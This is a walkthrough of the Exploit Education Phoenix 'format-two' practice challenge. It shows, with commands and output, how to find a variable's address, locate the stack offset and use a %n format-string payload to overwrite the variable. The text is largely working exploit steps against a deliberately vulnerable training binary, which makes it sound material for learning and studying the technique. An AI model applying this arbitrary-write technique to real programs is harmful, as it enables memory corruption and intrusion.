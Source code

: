 or


```c
user@phoenix-amd64:/opt/phoenix/i486$ nm format-two  | grep changeme
08049868 B changeme
```

Address of ```changeme``` is at ```0x08049868```


```c
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two $(python -c 'print "AAAA" + "%p"*11 + "%p"')
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAA0xffffd8d00x10000xf7f84b670xffffd7400xffffd7280x80485a00xffffd6200xffffd8d00x1000x3e80x41414141Better luck next time!
```

Lets try placing the address of ```changeme``` in input

```c
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two $(python -c 'print "\x68\x98\x04\x08" + "%p"*11 + "%p"')
Welcome to phoenix/format-two, brought to you by https://exploit.education
0xffffd8d00x10000xf7f84b670xffffd7400xffffd7280x80485a00xffffd6200xffffd8d00x1000x3e80x8049868Better luck next time!
```

So we could place the address of ```changeme``` using format string

Now here comes the important part of the exploit,

We should use ```%n``` to perform arbitrary write on the specific address location

```%n``` writes the value of number of charaters written so far into the address

Now if we use ```%n``` instead of ```%p``` at the 12th offset which has the address of ```changeme```, it tries to perform arbitrary write on ```changeme``` and passes the condition of the program

```c
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two $(python -c 'print "\x68\x98\x04\x08" + "%p"*11 + "%n"')
Welcome to phoenix/format-two, brought to you by https://exploit.education
0xffffd8d00x10000xf7f84b670xffffd7400xffffd7280x80485a00xffffd6200xffffd8d00x1000x3e8Well done, the 'changeme' variable has been changed correctly!
```

We have overwritten the value of ```changeme``` successfully using format string arbitrary write

Done! we have completed "format-two"








